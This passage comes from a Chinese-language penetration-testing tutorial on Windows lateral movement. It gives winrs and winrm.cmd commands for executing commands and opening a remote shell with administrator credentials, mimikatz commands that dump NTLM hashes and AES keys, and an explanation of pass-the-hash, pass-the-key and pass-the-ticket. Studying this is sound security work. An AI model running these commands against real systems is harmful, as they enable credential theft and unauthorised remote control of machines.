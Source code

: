 winrs 是 Windows 上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行 WinRM 的服务器上执行命令。要求通信双方都安装了 WinRM 服务。

```plain
# 执行系统命令 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "whoami" 
# 获取远程交互式命令行 
winrs -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@ "cmd"
```

## [**Winrm.cmd**](#toc_winrmcmd)

winrm.cmd 允许 WMI 对象通过 WinRm 传输进行远程交互，在本地或远程计算机上枚举 WMI 对象实例或调用 WMI 类方法。比如可以通过调用 Win32\_Process 类的 Create 方法来创建远程实例。

```plain
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://192.168.1.131:5985 -u:Administrator -p:123qwe@
```

## [Evil-Winrm](#toc_evil-winrm)

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

# [PTH&PTK&PTT（hash、key、ticket 传递）](#toc_pthptkptthashkeyticket)

```plain
PTH(pass the hash)   #利用 LM 或 NTLM 的值进行的渗透测试
PTT(pass the ticket)  #利用的票据凭证 TGT 进行的渗透测试
PTK(pass the key)   #利用的 ekeys aes256 进行的渗透测试
```

**PTH 和 PTK**

PTH 在内网渗透中是一种很经典的攻击方式，原理就是攻击者可以直接通过 LM Hash 和 NTLM Hash 访问远程主机或服务，而不用提供明文密码。

**如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功**。对于 8.1/2012r2，安装补丁 **kb2871997** 的 Win 7/2008r2/8/2012 等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

```plain
# mimikatz
privilege::debug      
# NTLM
sekurlsa::logonPasswords     
# AES
sekurlsa::ekeys
```

**总结：KB2871997 补丁后的影响**

[https://www.freebuf.com/column/220740.html](https://www.freebuf.com/column/220740.html)

**PTH：打补丁前任意用户都可以连接，打了补丁后只能 administrator 用户才可以连接**

**PTK：打补丁前不能连接，打补丁后才能任意用户都可以连接（采用 aes256 连接）**

[![img](https://kenyons.oss-cn-shenzhen.aliyuncs.com/img/202402170559544.png)](https://storage.tttang.com/media/attachment/2023/05/09/d8ba59d2-557c-4c35-bbf9-7cdd80593836.png)
